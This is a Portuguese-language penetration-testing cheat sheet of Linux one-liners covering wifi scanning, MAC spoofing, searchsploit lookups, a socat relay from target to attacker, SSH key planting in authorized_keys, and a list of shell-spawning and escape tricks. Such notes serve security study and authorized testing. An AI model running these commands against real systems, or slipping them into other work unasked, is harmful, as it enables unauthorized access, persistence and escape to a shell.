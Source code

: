 # Comandos Linux
-------
- script -a -f pentest.log
- exit
---------
# Wifi no terminal

- sudo iwconfig  // dispositivos wifi
- sudo iwlist wlan0 scan  // listando redes wifi 
- sudo iwlist wllan0 scan | grep ESSID  // listando redes wifi, filtrando apenas nomes
- nmcli d wifi connect SSIDredeWifi password suasenha // conecta na rede wifi

- macchanger -r eth0
- macchanger -p eth0
- macchanger -m mac eth0

- ipcalc 192.168.1.1/255.255.255.0
-------------
- searchsploit "ipfire" --exclude="algum|outra"
- searchsploit -e "ipfire"
- searchsploit "ipfire" --id
- searchsploit "ipfire" --id -m 44433
- searchsploit "ipfire" -m 44433.py
-------------
- socat TCP-LISTEN:8443,reuseaddr,fork TCP-LISTEN:2222,reuseaddr    #ouvindo atacante
- socat TCP4:172.20.1.6:8443 TCP4:127.0.0.1:22                      #maquina alvo
-----------
- ssh-keygen -f minhachave #criando chave publica ssh
- mkdir ~www-data
- mkdir ~/.ssh/
- touch ~/.ssh/authorized_keys
- echo "key ssh-rsa" > ~/.ssh/authorized_keys
- -----------------
# Shell Spawning

- python -c 'import pty; pty.spawn("/bin/sh")'
- echo os.system('/bin/bash')
- /bin/sh -i
- perl —e 'exec "/bin/sh";'
- perl: exec "/bin/sh";
- ruby: exec "/bin/sh"
- lua: os.execute('/bin/sh')
- (From within IRB)
- exec "/bin/sh"
- (From within vi)
- :!bash
- (From within vi)
- :set shell=/bin/bash:shell
- (From within nmap)
- !she
---------------
- curl -s -I dominio.com
- curl -w 'Status:%{http_code}\t  Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk dominio.com
- curl -L https://npmjs.org/install.sh | sh
- 

- hping --sync -c 1 -p 8081 172.16.1.5
- nc -vn -p 53 172.16.1.5 8180
- nc -vn -p 53 172.16.1.5 8180 > arquivo.html
- GET / HTTP/1.0
